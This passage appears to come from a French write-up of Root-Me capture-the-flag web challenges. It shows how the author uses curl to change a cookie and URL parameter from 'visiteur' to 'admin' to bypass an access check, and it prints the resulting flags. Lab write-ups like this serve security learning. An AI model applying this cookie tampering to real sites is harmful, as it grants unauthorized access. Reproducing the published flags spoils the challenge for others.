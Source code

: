 Flag : `a7n4nizpgQgnPERy89uanf6T4`

---


## 23. HTTP - Cookies

### Une solution utilisant `curl`

On clique sur le lien nous permettant de voir les emails enregistrés, et on voit que l’URL se modifie comme suit :

```
http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur
```

On modifie alors la valeur `visiteur` par `admin`, mais cela nous retourne une erreur.

Regardons alors le header avec `curl` :

```bash
curl -v "http://challenge01.root-me.org/web-serveur/ch7/?c=visiteur"
```

On y voit un cookie avec la valeur : `ch7=visiteur`

Modifions à la fois la valeur de `Set-Cookie` et le paramètre `c` dans l’URL :

```bash
curl -v "http://challenge01.root-me.org/web-serveur/ch7/?c=admin" -b "ch7=admin"
```

On obtient bien en sortie :

```bash
curl -v "http://challenge01.root-me.org/web-serveur/ch7/?c=admin" -b "ch7=admin"
* Host challenge01.root-me.org:80 was resolved.
* IPv6: 2001:bc8:35b0:c166::151
* IPv4: 212.129.38.224
*   Trying [2001:bc8:35b0:c166::151]:80...
* Connected to challenge01.root-me.org (2001:bc8:35b0:c166::151) port 80
* using HTTP/1.x
> GET /web-serveur/ch7/?c=admin HTTP/1.1
> Host: challenge01.root-me.org
> User-Agent: curl/8.11.1
> Accept: */*
> Cookie: ch7=admin
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Server: nginx
< Date: Wed, 29 Jan 2025 17:14:26 GMT
< Content-Type: text/html; charset=UTF-8
< Transfer-Encoding: chunked
< Connection: keep-alive
< Vary: Accept-Encoding
< 
<div>Validation password : ml-SYMPA
* Connection #0 to host challenge01.root-me.org left intact
</div></fieldset>   
Flag : `ml-SYMPA`
```
